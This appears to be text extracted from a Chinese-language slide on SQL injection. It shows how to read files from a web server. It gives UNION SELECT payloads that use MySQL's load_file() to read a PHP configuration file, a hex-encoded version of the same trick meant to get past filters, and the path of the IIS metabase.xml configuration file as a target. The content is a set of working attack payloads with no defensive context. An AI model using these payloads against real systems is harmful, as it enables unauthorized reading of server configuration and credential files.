

# 读取网站文件内容
and 1=2 union select 1,load_file('C:\\Inetpub\\wwwroot\\mysql-sql\\inc\\set_sql.php'),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
将路径转换为16进制
and 1=2 union select 1,load_file(0x443A5C7068705C41504D53657276352E322E365C7777775C6874646F63735C335C636F6E6669672E706870),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18

c:/windows/system32/inetsrv/metabase.xml  --iis配置文件